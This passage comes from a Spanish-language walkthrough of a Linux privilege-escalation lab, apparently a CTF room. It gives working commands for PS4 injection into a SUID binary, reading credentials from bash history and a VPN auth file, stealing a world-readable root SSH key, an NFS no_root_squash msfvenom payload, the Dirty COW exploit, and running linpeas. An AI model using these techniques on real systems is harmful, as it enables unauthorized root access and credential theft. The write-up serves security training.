

---

## Task 15 — SUID: Variables de entorno / PS4 debugging

Bash < 4.4 evalúa la variable `PS4` cuando se activa el modo de depuración (`-x`). Si un binario SUID corre con bash y se puede inyectar `PS4` con un comando, ese comando se ejecuta con los privilegios del binario (root).

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' \
  /usr/local/bin/suid-env2

/tmp/rootbash -p
```



---

## Task 16 — Credenciales en historial de comandos

El historial de bash guarda todos los comandos ejecutados por el usuario, incluyendo contraseñas que se hayan escrito en texto plano como argumentos.

```bash
cat ~/.*history | less
```





Se encuentra el comando `mysql -h somehost.local -uroot -ppassword123` — la contraseña de root está expuesta en el historial.

```bash
su root
# Contraseña: password123
```



---

## Task 17 — Credenciales en archivos de configuración

Los archivos de configuración de servicios frecuentemente contienen credenciales en texto plano. Un archivo `.ovpn` puede apuntar a un archivo de autenticación externo.

```bash
cat /home/user/myvpn.ovpn
# Línea: auth-user-pass /etc/openvpn/auth.txt

cat /etc/openvpn/auth.txt
# Usuario: root
# Contraseña: password123
```



```bash
su root
# Contraseña: password123
```



---

## Task 18 — Clave SSH privada expuesta

Si la clave SSH privada de root tiene permisos incorrectos (readable por otros usuarios), cualquier usuario del sistema puede copiarla y usarla para autenticarse como root por SSH.

```bash
ls -la /
# Se observa el directorio /.ssh
```



```bash
ls -l /.ssh/
# root_key con permisos 644 — readable por todos
```



```bash
cat /.ssh/root_key
```



```bash
# Copiar la clave y ajustar permisos (SSH rechaza claves con permisos > 600)
chmod 600 ~/root_key
ssh -i ~/root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@<IP>
```



---

## Task 19 — NFS: no_root_squash

Por defecto, NFS convierte al usuario root del cliente en el usuario `nobody` al crear archivos en el share (root squashing). Cuando esta protección está deshabilitada (`no_root_squash`), root en la máquina atacante puede crear archivos que conserven la propiedad root y el bit SUID en la VM víctima.

```bash
# Verificar exports NFS
cat /etc/exports
# /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
```



```bash
# Desde la máquina atacante (como root), montar el share NFS
mkdir /tmp/nfs
mount -o rw,vers=3 <IP>:/tmp /tmp/nfs
```


```bash
# Crear payload y activar bit SUID desde el atacante (como root)
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +xs /tmp/nfs/shell.elf
```


```bash
# En la VM víctima:
/tmp/shell.elf
```


---

## Task 20 — Dirty COW (CVE-2016-5195)

Dirty COW es una vulnerabilidad en el kernel Linux (versiones < 4.8.3) que explota una condición de carrera en el mecanismo copy-on-write de la memoria. Permite a un usuario sin privilegios escribir en archivos de solo lectura mapeados en memoria, incluyendo binarios del sistema.

```bash
# Compilar el exploit
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w

# Ejecutar (reemplaza /usr/bin/passwd con una copia de bash)
./c0w
```


El exploit lanza dos threads que compiten: uno hace `madvise` para descartar la página, otro escribe en el mapeo copy-on-write. La carrera gana eventualmente y sobreescribe `/usr/bin/passwd`:


Cuando termina, `/usr/bin/passwd` es ahora una copia de bash con SUID de root:

```bash
/usr/bin/passwd
```


Para restaurar el sistema después:

```bash
mv /tmp/bak /usr/bin/passwd
```

---

## Task 21 — Herramientas de enumeración automática

En lugar de buscar manualmente cada vector, existen scripts que automatizan la enumeración:

| Herramienta | Descripción |
|-------------|-------------|
| **linpeas.sh** | Enumeración exhaustiva con colores por criticidad. El más completo. |
| **LinEnum.sh** | Enumeración estructurada, salida más legible. |
| **lse.sh** | Linux Smart Enumeration. Pide contraseña opcionalmente para verificar si se puede usar sudo. |

```bash
ls /home/user/tools/privesc-scripts/
```


```bash
# Transferir y ejecutar
scp linpeas.sh user@<IP>:/tmp/
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh

# lse.sh con nivel de detalle máximo
/tmp/lse.sh -l 2
```

Estas herramientas son el punto de partida en cualquier engagement real: identifican rápidamente los vectores más prometedores para enfocar el esfuerzo manual.

---

## Conclusión

Esta room demuestra la amplitud del campo de escalada de privilegios en Linux. Los vectores cubiertos van desde errores de configuración simples (permisos de escritura en scripts de cron, credenciales en texto plano) hasta técnicas más sofisticadas (wildcard injection, function export en bash, vulnerabilidades de kernel). En un engagement real, la combinación de enumeración automática con herramientas como linpeas y análisis manual de los resultados es el enfoque más efectivo para identificar el camino de menor resistencia hacia root.